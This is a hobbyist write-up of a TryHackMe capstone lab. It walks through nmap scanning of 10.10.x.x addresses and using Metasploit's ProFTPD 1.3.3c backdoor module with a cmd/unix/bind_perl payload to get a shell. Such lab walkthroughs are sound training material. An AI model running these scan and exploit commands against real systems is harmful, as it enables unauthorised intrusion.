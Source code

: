 ```yaml
---
layout: page
title: MiroLabsCapstone
permalink: /Tutorials/TryHackMe/MiroLabsCapstone/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>


LETS GET SOME ROOT!
----

Since this one is a "Black Box" scenario we need to just try everything we can



First lets find the correct IP

```nmap -n -sn 10.10.77.0-255```

<img src="/images/TryHackMe/MiroLabsCapstone/IPs.png">

Looks like we have 2 possible choices, lets look into them

```nmap 10.10.77.78```

```nmap 10.10.77.141```

<img src="/images/TryHackMe/MiroLabsCapstone/IP_Results.png">

Lets go with the "basic" IP of 78 due to having 3 common exploitable port types

Lets look for any low hanging fruit

```sudo nmap  --script vuln -p 21-80 10.10.77.78 -v```

This just seemed to freeze after 5ish minutes


Now lets try to see what is running

```nmap -Pn -sV 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Services.png">

Well this looks like it could be promising... Lets lookup that ProFTPD version

```msfconsole```

```search ProFTPD 1.3.3c```

<img src="/images/TryHackMe/MiroLabsCapstone/Exploit.png">

We see that we may have a backdoor command we can try

```use 4```

```set RHOSTS 10.10.77.78```

```show options```

<img src="/images/TryHackMe/MiroLabsCapstone/Show.png">

Lets try to run it!

```run```

Annnnnnddddd..... Fail...hmmmm lets look this up

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

(This Link)[Https://nmap.org/nsedoc/scripts/ftp-proftpd-backdoor.html]  This link shows a possible answer

**nmap --script ftp-proftpd-backdoor -p 21 <host>**

```nmap --script ftp-proftpd-backdoor -p 21 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Backdoor.png">

Well.. Yay? that was a bit anticlimactic... Now how do we use it?

After some trial and error it seems we may not actually have a backdoor yet
	
After a new connection we have a new IP 10..10.38.231
  
More connection issues.. lets reboot

Lets try msfconsole again
	
New IP of 10.10.144.237

Whelp thats not working time to try another path

... I lied after some research we may need to pick a payload
	
```msfconsole```

```search proftp```
	
<img src="/images/TryHackMe/MiroLabsCapstone/Choices.png">
	
```use 6```
	
```set RHOST 10.10.144.237```

```Show Options```
	

<img src="/images/TryHackMe/MiroLabsCapstone/Options.png">

```Run```

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

Now I see we need to select a payload
	
```Show Payloads```

<img src="/images/TryHackMe/MiroLabsCapstone/Payloads.png">

```set payload cmd/unix/bind_perl```

ANNNNDDDD We are in!
	
<img src="/images/TryHackMe/MiroLabsCapstone/Owned.png">


<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
